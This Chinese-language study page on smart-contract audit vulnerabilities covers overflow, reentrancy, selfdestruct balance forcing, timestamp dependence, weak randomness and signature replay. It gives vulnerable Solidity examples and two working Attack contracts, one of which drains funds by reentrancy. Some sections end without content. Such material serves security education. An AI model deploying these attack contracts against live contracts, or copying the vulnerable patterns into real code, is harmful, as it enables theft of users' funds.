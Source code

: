 ## 智能合约常见漏洞审计
 **整数溢出**
 在solidity0.8.0开始，加入了自动检查溢出功能，此版本之后的合约,不必担心这个漏洞。
```Solidity
  function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
    uint cnt = _receivers.length;
    uint256 amount = uint256(cnt) * _value;
    require(cnt > 0 && cnt <= 20);
    require(_value > 0 && balances[msg.sender] >= amount);

    balances[msg.sender] = balances[msg.sender].sub(amount);
    for (uint i = 0; i < cnt; i++) {
        balances[_receivers[i]] = balances[_receivers[i]].add(_value);
        Transfer(msg.sender, _receivers[i], _value);
    }
    return true;
  }
```
batchTransfer 函数，它用于给地址列表中的所有地址都转账 _value,
但是没有检查 amount 是否溢出，这导致每个人的转账金额 _value 很大，
但是总共的 amount 却接近0.
所以要引入:library SafeMath {} 来规避掉溢出问题.

**重入攻击(递归调用攻击)**
transfer与send的区别
如果转账过程中出现问题，transfer会直接回退，所有之前的操作全部作废。
而send则不会回退交易，而是返回一个结果值true或false，至于回不回退，由调用者自己决定。
所以transfer就等于require(send),call函数则与send基本相同，只是gas费你可以自由指定。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
当攻击者调用储币合约中的 withdraw 函数时，withdraw 使用 call 底层调用发送以太币，
此时接收者是攻击者的 fallback 函数，因此如果在 fallback 函数中重新调用 withdraw 函数，
并且没有检查机制，就会发生重入攻击。

**payable函数导致合约余额更新**
当函数执行时，合约会先读取到交易对象，因此合约的余额会变成原来的余额+msg.value,
某些合约可能会未注意到余额的变化而产生漏洞。
**短地址攻击**
因为交易中data参数是原始的调用数据经过ABI编码的数据，ABI规则中常常会为了凑够32字节，在对原始参数编码时进行符号扩充。因此，如果输入的地址太短，那么编码时不会检查，就会直接补零，导致接收者改变。
**挖矿属性依赖**
合约中有部分内置变量，这些变量会受到矿工的影响，因此不应该把它们当作特定的判断条件。
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
contract Roulette {
    uint public pastBlockTime;
    fallback() external payable {
        require(msg.value == 10 ether);
        require(block.timestamp != pastBlockTime);
        pastBlockTime = block.timestamp;
        if(block.timestamp % 15 == 0){//依赖了区块时间戳
        payable(msg.sender).transfer(address(this).balance);
        }   
    }
}
```
**合约余额依赖**
selfdestruct函数是内置的强制执行的函数，因此即使合约没有可接受以太币的方法，
其他人依然可以通过强制执行selfdestruct函数改变合约余额，所以要仔细检查是否将合约余额作为判断标准。
例如，下面的合约，规定只有恰好7 ether的才能胜出，但是攻击者可以通过selfdestruct函数让没有人能够达到 7 ether.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");//只有合约余额达到 7 ether 才能成功

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```
**悬赏白帽子处理黑客潜规则**
**随机数攻击**
针对智能合约生成算法进行攻击，预测生成结果。目前区块链上很多合约都是采用的链上信息，
如区块时间戳，未来区块哈希等。作为游戏合约的随机数源，也称种子。使用这种种子生成的随机数
被称为伪随机数。它不是真的随机数，存在被预测的可能。当使用可被预测的种子生成随机数的时候，
一旦生成算法被攻击者猜到或通过逆向方式拿到攻击者就可以实现预测。
由于区块链上的数据对所有人都公开透明，完全可以提前拿到数据，并计算结果。做法就是，创建一个攻击合约
attack，这个合约中先预测结果，再决定是否调用其它函数。由于两个合约再同一个区块中被运行，也就是说它们拿到的
区块难度值和时间戳相同，所以攻击者有能力先预测结果在调用。         

**自毁函数攻击**
自毁函数是一个很隐蔽的可以发送以太的方法。攻击者可以利用该函数，向目标合约强制转账，从而影响目标合约的正常功能。
由于这个合约没有fallback和receive函数，所以不会接受外部发来的以太。若黑客绕开deposit函数充入以太，则游戏便无法
进行了，不会再产生赢家。而如何绕开deposit函数呢？就是利用selfdestruct函数向攻击目标合约强制转账，黑客先在攻击合约中
存满7个以太，然后执行自会函数。那么七个以太就会强制转账给目标合约了。以太坊留有后门，可以通过自会函数强制转账，即使被
攻击的合约没有fallback或receive函数。

**访问控制漏洞**

**签名重放**
一般而言，签名会和特定的交易或者消息绑定，但是为了业务逻辑自己设计的多重签名，可能会疏忽造成签名重复使用。
例如下面的 transfer 函数，通过库合约恢复发送者地址，但是如果签名是可重用的，那么就会造成意外的取款行为。




